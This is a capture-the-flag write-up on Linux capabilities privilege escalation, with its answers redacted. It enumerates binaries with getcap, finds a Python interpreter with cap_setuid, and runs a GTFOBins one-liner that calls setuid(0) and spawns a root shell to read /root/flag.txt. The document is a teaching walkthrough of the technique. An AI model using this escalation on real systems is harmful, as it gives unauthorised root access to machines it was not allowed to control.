


### Question 1 — How many binaries have set capabilities?

```shell
john@capabilities-box:~$ getcap -r / 2>/dev/null | wc -l

—REDACTED—
```

**Breakdown:**

- `getcap` lists the capabilities assigned to files
- `-r /` searches recursively, starting from the root directory
- `2>/dev/null` discards error output from directories that can't be traversed as an unprivileged user
- `| wc -l` pipes the result into `wc` (word count); `-l` tells it to count lines rather than words, giving the total number of binaries with capabilities set

**Answer:** `—REDACTED—`

### Question 2 — What is the full path of the binary that can be used to gain root through its capabilities?

Ran `getcap` again without the `wc -l` pipe to see the actual list behind that count:

```shell
john@capabilities-box:~$ getcap -r / 2>/dev/null

/snap/core20/2379/usr/bin/ping cap_net_raw=ep
/snap/core22/1621/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
—REDACTED— cap_setuid=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
```

`—REDACTED—` stood out immediately: `cap_setuid=ep` is the same capability that made Vim exploitable earlier in this task, while the other entries only carry `cap_net_raw` or networking-related capabilities, which don't grant anything close to a privilege escalation path.

To confirm Python was exploitable this way, checked GTFOBins filtered to the Capabilities context:



Python's entry there showed a Shell function available under Capabilities, so opened its dedicated GTFOBins page for the exact payload needed:



This confirmed `cap_setuid` was exactly the capability needed, matching what `getcap` had already shown on `—REDACTED—`.

**Answer:** `—REDACTED—`

### Question 3 — What are the contents of /root/flag.txt?

Ran the payload from GTFOBins against the local Python 3.12 interpreter:

```shell
john@capabilities-box:~$ python3.12 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'

# whoami

root
```

**Breakdown:**

- `python3.12` invokes that specific version of the Python interpreter
- `-c '...'` runs the given string as Python code rather than reading it from a file
- `import os` imports Python's `os` module, giving access to operating-system-level functions
- `os.setuid(0)` sets the process's user ID to `0` (root); this succeeds here because the interpreter carries `cap_setuid`, even though the user running it isn't root
- `os.execl("/bin/sh", "sh")` replaces the current process image with `/bin/sh`, passing `"sh"` as that shell's own name (`argv[0]`); the new shell inherits the root user ID set a moment earlier

`whoami` confirmed the resulting shell was running as root. From there, the flag was read directly:

```shell
# cat /root/flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`